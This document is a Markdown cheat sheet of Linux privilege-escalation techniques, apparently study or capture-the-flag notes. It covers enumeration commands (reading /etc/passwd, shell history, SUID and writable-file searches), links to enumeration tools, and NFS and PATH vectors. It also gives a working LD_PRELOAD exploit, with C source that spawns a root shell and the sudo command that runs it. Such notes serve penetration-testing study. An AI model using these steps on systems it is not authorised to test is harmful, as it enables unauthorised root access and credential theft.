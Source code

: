 # Linux PrivEsc

## Important files

`/proc/version` = may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

`/etc/issue` = This file usually contains some information about the OS but can easily be customized or changed

`/etc/passwd` = Shows users on the system



Cat users with home directory

```bash
cat /etc/passwd | grep home
```

## Important commands

`hostname` = get **hostname** of target

`uname -a` = Print system info + **kernel** info

`ps` = See running processes in Linux

* `ps -A` = View all running processes
* `ps axjf` = View process tree
* `ps aux` = Show processes for all users, display the user that launched the process, and show the processes that are not attached to a terminal

`env` = Show **environment** variables

* The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

`sudo -l` = List **all commands** user can run using **sudo**

`id` = provide a general overview of the **user's privilege level** and **group memberships**

`history` = History file might have some **passwords** or **usernames** inside

`netstat` = Gather information on existing connections

* `netstat -a` shows all listening ports and established connections
* `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
* `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol&#x20;
* `netstat -s`: list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.
* `netstat -tp`: list connections with the service name and PID information.
* `netstat -i`: Shows interface statistics.
* The `netstat` usage you will probably see most often in blog posts, write-ups, and courses is `netstat -ano` which could be broken down as follows;
  * `-a`: Display all sockets
  * `-n`: Do not resolve names
  * `-o`: Display timers

Find

* `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
* `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
* `find / -type d -name config`: find the directory named config under “/”
* `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
* `find / -perm a=x`: find executable files
* `find /home -user frank`: find all files for user “frank” under “/home”
* `find / -mtime 10`: find files that were modified in the last 10 days
* `find / -atime 10`: find files that were accessed in the last 10 day
* `find / -cmin -60`: find files changed within the last hour (60 minutes)
* `find / -amin -60`: find files accesses within the last hour (60 minutes)
* `find / -size 50M`: find files with a 50 MB size

Find files permission based on permissions

* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
* `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders



* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders



Find development tools and supported languages:

* `find / -name perl*`
* `find / -name python*`
* `find / -name gcc*`



SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

## Automated Enumeration Tools

* LinPeas:&#x20;

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS" %}

* LinEnum:&#x20;

{% embed url="https://github.com/rebootuser/LinEnum" %}

* LES (Linux Exploit Suggester):

{% embed url="https://github.com/mzet-/linux-exploit-suggester" %}

* Linux Smart Enumeration:

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

* Linux Priv Checker:

{% embed url="https://github.com/linted/linuxprivchecker" %}

## Kernel Exploits

1. Based on your findings, you can use **Google** to search for an existing exploit code.
2. Sources such as this can also be useful:

{% embed url="https://www.linuxkernelcves.com/cves" %}

3. Another alternative would be to use a script like **LES (Linux Exploit Suggester)** but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

## Sudo

{% embed url="https://gtfobins.github.io/" %}

### LD\_PRELOAD

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD\_PRELOAD (with the env\_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (8).png" alt=""><figcaption></figcaption></figure>

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD\_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

## SUID

`find / -type f -perm -4000 2>/dev/null`

## Capabilities

`getcap` = List enabled capabilities

`getcap -r / 2>/dev/null` = Redirect errors when using running this command as unprivileged user

## Cron Jobs

`/etc/crontab` = Cron jobs file

## Path

See Path Variable: `echo $PATH`

You can use C scripts with system() function in this privesc method

## NFS

`cat /etc/exports` = See NFS (Network File Sharing) configuration

Look out for **no\_root\_squash** option

`showmount -e [IP_ADDR]` = Enumerate mountable shares

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As you can set SUID bit, you generate a C code and compile it. It automatically is also visible on the mounted directory on target
